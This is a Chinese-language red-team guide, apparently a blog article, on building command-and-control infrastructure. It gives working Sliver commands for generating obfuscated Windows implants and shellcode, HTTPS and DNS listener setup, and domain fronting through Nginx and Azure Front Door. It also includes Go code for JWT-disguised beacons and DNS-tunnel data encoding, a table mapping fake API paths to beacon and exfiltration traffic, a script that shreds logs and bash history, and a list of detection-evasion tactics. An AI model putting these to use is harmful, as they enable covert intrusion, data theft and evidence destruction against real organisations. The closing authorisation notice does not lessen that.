

# 红队基础设施搭建指南：C2 框架与隐蔽通道构建

## 一、红队基础设施概述

### 1.1 什么是红队基础设施

红队基础设施是指支持红队测试活动的所有技术资源集合：



### 1.2 基础设施的核心需求

| 需求 | 说明 | 实现方案 |
|------|------|----------|
| **隐蔽性** | 流量不被检测为恶意 | CDN 前置、域名前置 |
| **弹性** | 被阻断后快速恢复 | 多域名、多 VPS、故障转移 |
| **安全性** | C2 本身不被攻陷 | - 最小权限 - 日志分离 - 网络隔离 |
| **可靠性** | 测试期间持续可用 | 健康检查、自动恢复 |

## 二、C2 框架选型

### 2.1 主流 C2 框架对比

| 框架 | 语言 | 源码 | 特点 |
|------|------|------|------|
| **Sliver** | Go | 开源 | 加密通信、操作体验类似 Cobalt Strike |
| **Cobalt Strike** | Java | 商业 | 最成熟、功能最全、但特征明显 |
| **Havoc** | C++/Go | 开源 | 现代 UI、支持多种协议 |
| **Mythic** | Docker 化 | 开源 | 模块化、P2P 通信 |

### 2.2 Sliver C2 实战部署

**环境准备**：

```bash
# 在 VPS 上安装 Sliver
mkdir -p /opt/sliver
cd /opt/sliver
curl -L https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux -o sliver-server
chmod +x sliver-server

# 启动 C2 服务器
./sliver-server daemon

# 连接管理端
./sliver-server operator --name pentest01 --lhost <your-ip>
```

**生成植入体**：

```bash
# 生成 Windows 植入体（HTTPS）
generate --http --http://yourdomain.com --save /tmp/implant.exe --os windows --arch amd64

# 生成带混淆的植入体
generate --http --http://yourdomain.com --save /tmp/implant.exe --skip-symbols --strategy external

# 生成 shellcode
generate --http --http://yourdomain.com --save /tmp/shellcode.bin --format shellcode
```

**监听器配置**：

```bash
# 创建 HTTPS 监听器
https --lhost 0.0.0.0 --lport 443 --domain yourdomain.com

# 创建 DNS 监听器（备用通道）
dns --lhost 0.0.0.0 --lport 53 --domains dns.yourdomain.com
```

## 三、域名前置技术

### 3.1 CDN 前置原理

利用 CDN 的"回源"特性将 C2 流量伪装成正常业务流量：

```nginx
# Nginx 回源配置（CDN → VPS）
server {
    listen 443 ssl;
    server_name cdn-backend.yourdomain.com;
    
    # 正常的伪装站点
    root /var/www/normal-site;
    index index.html;
    
    # C2 路径（只有特定路径才回源到 C2）
    location /c2/callback {
        proxy_pass https://127.0.0.1:8443;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
    
    # JWT 认证路径
    location /api/auth {
        proxy_pass https://127.0.0.1:8443;
    }
}
```

### 3.2 Azure CDN 前置（实战案例）

```bash
# 1. 创建 Azure Front Door
az afd profile create \
    --profile-name redteam-cdn \
    --resource-group redteam-rg \
    --sku Standard_AzureFrontDoor

# 2. 创建端点
az afd endpoint create \
    --resource-group redteam-rg \
    --profile-name redteam-cdn \
    --endpoint-name c2-proxy \
    --enabled-state Enabled

# 3. 配置自定义域名
az afd custom-domain create \
    --resource-group redteam-rg \
    --profile-name redteam-cdn \
    --custom-domain-name c2.yourdomain.com \
    --host-name c2.yourdomain.com \
    --certificate-type ManagedCertificate

# 4. 配置路由（只路由特定路径到 C2）
az afd route create \
    --resource-group redteam-rg \
    --profile-name redteam-cdn \
    --endpoint-name c2-proxy \
    --forwarding-protocol HttpsOnly \
    --patterns "/callback/*" \
    --backend-id /subscriptions/.../backends/c2-vps
```

### 3.3 域名前置的关键

```yaml
前置清单：
□ 域名使用 CDN（CloudFront / Azure Front Door / Cloudflare）
□ C2 服务器的 IP 不直接暴露
□ CDN 只路由特定路径（/callback/*）到 C2
□ 根路径部署正常网站作为掩护
□ 使用 Let's Encrypt 自动续期 TLS 证书
□ C2 的域名注册使用隐私保护
```

## 四、流量混淆与编码

### 4.1 HTTPS 流量混淆

```go
// Sliver 默认使用 mTLS + AES-GCM 加密
// 通信流程：
// 1. Client → Server: ClientHello + 加密的元数据
// 2. Server → Client: ServerHello + 证书
// 3. 建立 mTLS 连接
// 4. 所有后续数据用 AES-GCM 加密

// 使用 JWT 伪装 HTTP 流量
func generateJWTBeacon(sessionID string) string {
    claims := jwt.MapClaims{
        "sub":   sessionID,
        "iat":   time.Now().Unix(),
        "exp":   time.Now().Add(30 * time.Second).Unix(),
        "type":  "heartbeat",
    }
    
    token := jwt.NewWithClaims(jwt.SigningMethodHS256, claims)
    tokenString, _ := token.SignedString([]byte("shared-secret"))
    
    return tokenString
}
```

### 4.2 DNS 隧道

```go
// DNS 隧道编码示例
func encodeDataToDNS(data []byte, domain string) []string {
    var queries []string
    
    // 将数据分段，每段编码为 DNS 子域名
    for i := 0; i < len(data); i += 16 {
        chunk := data[i:min(i+16, len(data))]
        encoded := hex.EncodeToString(chunk)
        query := fmt.Sprintf("%s.%s", encoded, domain)
        queries = append(queries, query)
    }
    
    return queries
}

func decodeDNSResponse(records []string) []byte {
    var data []byte
    for _, record := range records {
        // 从 DNS TXT 记录中提取数据
        hexData := strings.Split(record, ".")[0]
        chunk, _ := hex.DecodeString(hexData)
        data = append(data, chunk...)
    }
    return data
}
```

### 4.3 伪装成常见 API

```yaml
通信伪装策略：
┌─────────────────────────┬──────────────────┐
│ 伪装类型                 │ 实际内容          │
├─────────────────────────┼──────────────────┤
│ GET /api/v1/healthz    │ Beacon 心跳       │
│ POST /api/v1/logs      │ 数据回传          │
│ POST /api/v1/config    │ C2 下发指令       │
│ GET /api/v1/update     │ 植入体更新        │
│ POST /graphql          │ 批量数据回传       │
└─────────────────────────┴──────────────────┘
```

## 五、基础设施安全

### 5.1 网络隔离

```bash
# VPS 上的 iptables 规则
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# 只允许特定来源访问 C2 管理端口
iptables -A INPUT -p tcp --dport 22 -s <管理IP> -j ACCEPT
iptables -A INPUT -p tcp --dport 8443 -s <LocalIP> -j ACCEPT

# 允许 HTTPS 入站（植入体连接）
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# 允许 ICMP
iptables -A INPUT -p icmp -j ACCEPT

# 记录日志但一定要限制日志大小
iptables -A INPUT -j LOG --log-prefix "C2-DROP: "
```

### 5.2 日志管理

```go
// 日志分离：C2 日志不写入系统日志
type C2Logger struct {
    sessionLogs  *os.File  // 会话日志（加密存储）
    accessLogs   *os.File  // 访问日志（需要时开启）
    errorLogs    *os.File  // 错误日志（调试用）
}

func NewC2Logger(sessionDir string) *C2Logger {
    // 会话日志加密存储
    key := generateEncryptionKey()
    
    return &C2Logger{
        sessionLogs: openEncryptedLog(sessionDir+"/sessions.enc", key),
        accessLogs:  openPlainLog("/dev/null"),     // 默认不记录
        errorLogs:   openPlainLog("/tmp/c2-errors.log"),
    }
}
```

### 5.3 快速销毁

```bash
#!/bin/bash
# destroy.sh - 应急销毁脚本
set -e

echo "正在销毁 C2 基础设施..."

# 1. 停止 C2 服务
systemctl stop sliver
systemctl disable sliver

# 2. 删除敏感文件
shred -f -z -n 7 /opt/sliver/data/*
shred -f -z -n 7 /opt/sliver/logs/*
rm -rf /opt/sliver

# 3. 清理日志
journalctl --vacuum-size=0
shred -f -z -n 3 /var/log/auth.log
shred -f -z -n 3 /var/log/syslog

# 4. 清除 bash 历史
shred -f -z -n 3 ~/.bash_history
history -c

# 5. 关闭服务
# iptables -P INPUT DROP
# iptables -P OUTPUT DROP

echo "销毁完成"
```

## 六、基础设施测试清单

### 6.1 上线前检查

```markdown
□ C2 域名使用隐私保护注册
□ TLS 证书有效且来自公共 CA
□ CDN 前置配置正确（C2 IP 不暴露）
□ 植入体连接测试通过
□ C2 管理端只允许来源 IP 访问
□ 日志已配置为最小记录
□ 销毁脚本就绪
□ 备用域名/VPS 就绪
□ 流量伪装测试通过
□ 杀毒软件检测测试
```

### 6.2 常见检测规避

```markdown
检测手段 → 应对方案
────────────────────────────────────
JA3 指纹检测 → 修改 TLS 指纹（使用 360 或 Chrome 的 JA3）
SNI 检测 → 使用域名前置（CDN）
DNS 请求异常 → 限制 DNS 请求频率，增加噪声请求
TLS 证书异常 → 使用 Let's Encrypt 标准证书
流量特征 → 使用正常 API 格式 + JWT 认证
连接频率 → 随机间隔 + jitter（±30%）
```

## 七、法律与合规

> **重要提示**：红队基础设施只能在获得明确授权的情况下使用。未经授权搭建 C2 基础设施可能违反《刑法》第 285/286 条及《网络安全法》第 27 条。
>
> 合法使用场景：
> ✅ 企业内部授权的渗透测试
> ✅ 第三方授权的红队评估
> ✅ CTF 和安全竞赛
> ✅ 在自有环境中进行安全研究

---

*本文是攻防研究系列的一部分，后续将覆盖 Cobalt Strike 纵深、EDR 规避、云环境渗透等高级主题。*
